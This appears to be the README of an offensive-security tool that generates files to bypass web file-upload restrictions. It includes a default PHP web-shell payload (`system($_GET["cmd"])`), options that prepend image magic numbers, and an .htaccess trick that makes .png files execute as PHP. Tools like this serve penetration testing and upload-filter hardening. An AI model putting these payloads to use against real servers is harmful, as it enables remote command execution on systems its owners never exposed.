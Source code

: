 # generate-file-upload
Generate some payload to bypass restriction when you perform a file upload

```
python upfile.py
```
Generate in `Payloads/` all extension for PHP

Default name : `payload`

Default file : `PHP`

Default payload : `<?php system($_GET["cmd"]); ?>`

-----

## Exemple of usage :
```
python upfile.py -b
```
Generate all bypass for PHP


```
python upfile.py -n test -p test -ext php
```
Generate file named `test.php` which contain `test`


```
python upfile.py -b -m png
```
Generate all files bypass for PHP, which contain `magicNumber + payload`


```
python upfile.py -ext png -ht png
```
Generate `.htaccess` which allow execution of php with extension .png and create `paylaod.png`

-----

## Options
```
usage: upfile.py [-h] [-d] [-p <payload>] [-f {php}] [-ext <ext>] [-b] [-n <name>] [-m {png,jpg}] [-ht <ext>]

Generate some payload to bypass restriction when you perform a file upload

options:
  -h, --help            show this help message and exit
  -d, --debug           Seen the debug to see the process
  -p <payload>, --payload <payload>
                        The payload in the files
  -f {php}, --file {php}
                        The type of the files
  -ext <ext>, --extension <ext>
                        Generate the payload with specific extension
  -b, --bypass          Bypass the restriction
  -n <name>, --name <name>
                        Name of the file
  -m {png,jpg}, --magic {png,jpg}
                        Magic Header, add the magics numbers before the payload
  -ht <ext>, --htaccess <ext>
                        Creates in addition a .htaccess file, which allow execution of php whith extension that you
                        have chosen
   ```                     
